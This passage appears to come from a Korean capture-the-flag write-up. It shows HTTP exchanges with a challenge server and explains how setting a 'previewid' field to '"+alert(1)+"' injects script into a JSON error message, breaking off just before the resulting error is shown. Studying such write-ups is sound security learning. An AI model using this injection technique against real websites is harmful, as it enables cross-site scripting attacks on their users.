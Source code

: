```
HTTP/1.1 200 OK
Server: gunicorn/19.10.0
Date: Tue, 30 Jun 2020 08:28:06 GMT
Connection: close
Content-Type: application/json
Content-Length: 47

{"url": "http://pwnable.org:5000/share/PfLqNp"}
```

```
GET http://pwnable.org:5000/image/PfLqNp/png HTTP/1.1
Host: pwnable.org:5000
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
```

```
HTTP/1.1 200 OK
Server: gunicorn/19.10.0
Date: Tue, 30 Jun 2020 08:29:19 GMT
Connection: close
Content-Type: application/json
Content-Length: 124
Content-Security-Policy: img-src * data:; default-src 'self'; style-src 'self' 'unsafe-inline'; connect-src 'self'; object-src 'none'; base-uri 'self'

{"error": "Convert exception: unable to open image `previews/abcd': No such file or directory @ error/blob.c/OpenBlob/2874"}
```

따라서 `previewid`를 `"+alert(1)+"`로 하고 공유 기능을 사용함으로써 우리는 아래와 같은 JSON을 얻을 수 있습니다.

```
{"error": "Convert exception: unable to open image `previews/"+alert(1)+"': No such file or directory @ error/blob.c/OpenBlob/2874"}
```

위 JSON을 Javascript Console에서 사용하면 당연히 alert 메세지가 잘뜹니다. 하지만 script의 js 파일처럼 불러오게 되면 아래와 같은 에러가 발생합니다.
